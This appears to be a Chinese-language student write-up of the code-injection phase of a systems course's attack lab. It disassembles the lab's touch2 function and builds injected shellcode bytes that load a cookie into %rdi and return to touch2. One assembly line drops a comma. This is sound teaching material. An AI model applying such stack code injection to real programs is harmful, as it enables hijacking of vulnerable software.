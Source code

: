 反汇编得到touch2的汇编代码：

```assembly
00000000004017ec <touch2>:
  4017ec:       48 83 ec 08             sub    $0x8,%rsp
  4017f0:       89 fa                   mov    %edi,%edx
  4017f2:       c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:       00 00 00
  4017fc:       3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:       75 20                   jne    401824 <touch2+0x38>
  401804:       be e8 30 40 00          mov    $0x4030e8,%esi
  401809:       bf 01 00 00 00          mov    $0x1,%edi
  40180e:       b8 00 00 00 00          mov    $0x0,%eax
  401813:       e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
  401818:       bf 02 00 00 00          mov    $0x2,%edi
  40181d:       e8 6b 04 00 00          callq  401c8d <validate>
  401822:       eb 1e                   jmp    401842 <touch2+0x56>
  401824:       be 10 31 40 00          mov    $0x403110,%esi
  401829:       bf 01 00 00 00          mov    $0x1,%edi
  40182e:       b8 00 00 00 00          mov    $0x0,%eax
  401833:       e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
  401838:       bf 02 00 00 00          mov    $0x2,%edi
  40183d:       e8 0d 05 00 00          callq  401d4f <fail>
  401842:       bf 00 00 00 00          mov    $0x0,%edi
  401847:       e8 f4 f5 ff ff          callq  400e40 <exit@plt>
```

需要输入参数cookie，因此要先将cookie移入rdi寄存器，再执行touch2，即ret touch2的地址0x4017ec

转换为汇编代码即

```assembly
movq $0x59b997fa %rdi
pushq $0x4017ec
ret
```

首先编写上述汇编程序cl2.s，汇编后反汇编

```shell
gcc -c cl2.s -o cl2.o
objdump -d cl2.o > cl2.txt
```

得到需要注入的指令为

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

则指令序列如下：

```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```

